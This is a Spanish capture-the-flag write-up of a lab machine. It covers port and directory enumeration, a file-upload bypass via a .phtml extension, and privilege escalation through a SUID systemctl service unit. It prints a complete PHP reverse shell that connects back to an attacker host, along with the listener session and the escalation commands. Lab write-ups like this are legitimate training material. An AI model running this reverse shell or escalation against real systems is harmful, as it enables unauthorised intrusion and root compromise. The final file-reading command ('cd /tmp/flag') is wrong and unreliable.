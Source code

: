 # Basic Pentesting — Writeup

## TL;DR

Se encontraron servicios FTP, SSH, Samba y un servicio web con un directorio de subida (/internal). Subiendo un webshell .phtml se consiguió una reverse shell como www-data. Desde esa cuenta se escaló privilegios aprovechando /bin/systemctl con permiso SUID para ejecutar una unidad systemd que leyó /root/root.txt a /tmp/flag.

---

## Enumeración (nmap)

```bash
nmap -sV -sC --open $IP -oN scan.txt
```

**Comentario:** `-sV` detecta versiones de servicios; `-sC` ejecuta scripts por defecto; `--open` muestra solo los puertos abiertos; `-oN` guarda la salida en un archivo normal.

**Resultado**
```bash
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.5
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 19:78:f4:6e:d8:11:72:e7:ba:60:0c:d2:ba:c9:a3:e7 (RSA)
|   256 e1:6e:3e:95:e0:bd:78:db:e9:aa:74:44:67:f0:a6:8e (ECDSA)
|_  256 8e:8d:24:7f:0d:77:52:20:40:2b:9e:ec:b3:e9:50:a8 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 4
445/tcp  open  netbios-ssn Samba smbd 4
3128/tcp open  http-proxy  Squid http proxy 4.10
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/4.10
3333/tcp open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Vuln University
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: -1s
|_nbstat: NetBIOS name: , NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2025-09-27T20:40:34
|_  start_date: N/A
```
**Resumen**

* 21/tcp open ftp (vsftpd/3.0.5)
* 22/tcp open  ssh (OpenSSH 8.2p1)
* 139/445/tcp open Samba (smbd)
* 3128/tcp open http-proxy (Squid/4.10)
* 3333/tcp open  http (Apache/2.4.41)

---

## Enumeración de directorios web (Gobuster)

```bash
gobuster dir -u http://$IP:3333 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```

**Comentario:** `-u` url target; `-w` ruta de wordlist.

**Resultado**
```bash
/images               (Status: 301) [Size: 322] [--> http://$IP:3333/images/]                                                                   
/css                  (Status: 301) [Size: 319] [--> http://$IP:3333/css/]                                                                      
/js                   (Status: 301) [Size: 318] [--> http://$IP:3333/js/]                                                                       
/internal             (Status: 301) [Size: 324] [--> http://$IP:3333/internal/] 
```
**Resultado relevante**

* `/internal`, directorio web para subir archivos.
  
---

## Burp Suite

**Petición POST**

Interceptamos la petición POST al subir un archivo a la web con el proxy de BurpSuite, la enviamos al Intruder y marcamos la extensión.
```bash
POST /internal/index.php HTTP/1.1
Host: $IP:3333
Content-Length: 291
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://$IP:3333
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJ8PkprBlb27KbdYV
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://$IP:3333/internal/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryJ8PkprBlb27KbdYV
Content-Disposition: form-data; name="file"; filename="test.§php§"
Content-Type: application/x-php

test

------WebKitFormBoundaryJ8PkprBlb27KbdYV
Content-Disposition: form-data; name="submit"

Submit
------WebKitFormBoundaryJ8PkprBlb27KbdYV--
```

**Identificar extensión permitida**

Aplicamos una wordlist de extensiones (phpext.txt) como payload para identificar la correcta:
<details>
	<summary><i>phpext.txt</i></summary>
		
		.php
		.php3
		.php4
		.php5
		.phtml
	
</details>

**Resultado**
* Extensión permitida: `.phtml`

---

## Reverse Shell

**Script Reverse Shell**
<details><summary><i>php-reverse-shell.phtml</i></summary>

```bash	
	<?php
	set_time_limit (0);
	$VERSION = "1.0";
	$ip = '127.0.0.1';  // CHANGE THIS
	$port = 1234;       // CHANGE THIS
	$chunk_size = 1400;
	$write_a = null;
	$error_a = null;
	$shell = 'uname -a; w; id; /bin/sh -i';
	$daemon = 0;
	$debug = 0;
	
	//
	// Daemonise ourself if possible to avoid zombies later
	//
	
	// pcntl_fork is hardly ever available, but will allow us to daemonise
	// our php process and avoid zombies.  Worth a try...
	if (function_exists('pcntl_fork')) {
		// Fork and have the parent process exit
		$pid = pcntl_fork();
		
		if ($pid == -1) {
			printit("ERROR: Can't fork");
			exit(1);
		}
		
		if ($pid) {
			exit(0);  // Parent exits
		}
	
		// Make the current process a session leader
		// Will only succeed if we forked
		if (posix_setsid() == -1) {
			printit("Error: Can't setsid()");
			exit(1);
		}
	
		$daemon = 1;
	} else {
		printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
	}
	
	// Change to a safe directory
	chdir("/");
	
	// Remove any umask we inherited
	umask(0);
	
	//
	// Do the reverse shell...
	//
	
	// Open reverse connection
	$sock = fsockopen($ip, $port, $errno, $errstr, 30);
	if (!$sock) {
		printit("$errstr ($errno)");
		exit(1);
	}
	
	// Spawn shell process
	$descriptorspec = array(
	   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
	   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
	   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
	);
	
	$process = proc_open($shell, $descriptorspec, $pipes);
	
	if (!is_resource($process)) {
		printit("ERROR: Can't spawn shell");
		exit(1);
	}
	
	// Set everything to non-blocking
	// Reason: Occsionally reads will block, even though stream_select tells us they won't
	stream_set_blocking($pipes[0], 0);
	stream_set_blocking($pipes[1], 0);
	stream_set_blocking($pipes[2], 0);
	stream_set_blocking($sock, 0);
	
	printit("Successfully opened reverse shell to $ip:$port");
	
	while (1) {
		// Check for end of TCP connection
		if (feof($sock)) {
			printit("ERROR: Shell connection terminated");
			break;
		}
	
		// Check for end of STDOUT
		if (feof($pipes[1])) {
			printit("ERROR: Shell process terminated");
			break;
		}
	
		// Wait until a command is end down $sock, or some
		// command output is available on STDOUT or STDERR
		$read_a = array($sock, $pipes[1], $pipes[2]);
		$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
	
		// If we can read from the TCP socket, send
		// data to process's STDIN
		if (in_array($sock, $read_a)) {
			if ($debug) printit("SOCK READ");
			$input = fread($sock, $chunk_size);
			if ($debug) printit("SOCK: $input");
			fwrite($pipes[0], $input);
		}
	
		// If we can read from the process's STDOUT
		// send data down tcp connection
		if (in_array($pipes[1], $read_a)) {
			if ($debug) printit("STDOUT READ");
			$input = fread($pipes[1], $chunk_size);
			if ($debug) printit("STDOUT: $input");
			fwrite($sock, $input);
		}
	
		// If we can read from the process's STDERR
		// send data down tcp connection
		if (in_array($pipes[2], $read_a)) {
			if ($debug) printit("STDERR READ");
			$input = fread($pipes[2], $chunk_size);
			if ($debug) printit("STDERR: $input");
			fwrite($sock, $input);
		}
	}
	
	fclose($sock);
	fclose($pipes[0]);
	fclose($pipes[1]);
	fclose($pipes[2]);
	proc_close($process);
	
	// Like print, but does nothing if we've daemonised ourself
	// (I can't figure out how to redirect STDOUT like a proper daemon)
	function printit ($string) {
		if (!$daemon) {
			print "$string\n";
		}
	}
	
	?>
```

</details>

**Subida reverse shell php**
```bash
	http://$IP:3333/internal/
```	

**Ejecución Payload**
```bash
	http://$IP:3333/internal/uploads/php-reverse-shell.phtml
```

**Listen Port**
```bash
	nc -lvnp 4444             
	listening on [any] 4444 ...
	connect to [$IP] from (UNKNOWN) [$IP] 45390
	Linux $IP 5.15.0-139-generic #149~20.04.1-Ubuntu SMP Wed Apr 16 08:29:56 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
	 14:46:58 up 3 min,  0 users,  load average: 0.82, 0.38, 0.14
	USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
	uid=33(www-data) gid=33(www-data) groups=33(www-data)
	$ whoami
	www-data
```

**Upgrade Shell**
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## Escalada Privilegios

**Búsqueda binarios SUID**
```bash
 find / -user root -perm -4000 -exec ls -ldb {} \;
```
**Exploit systemctl**

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/flag"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
**Leer Flag**
```bash
	$ cd /tmp/flag
```
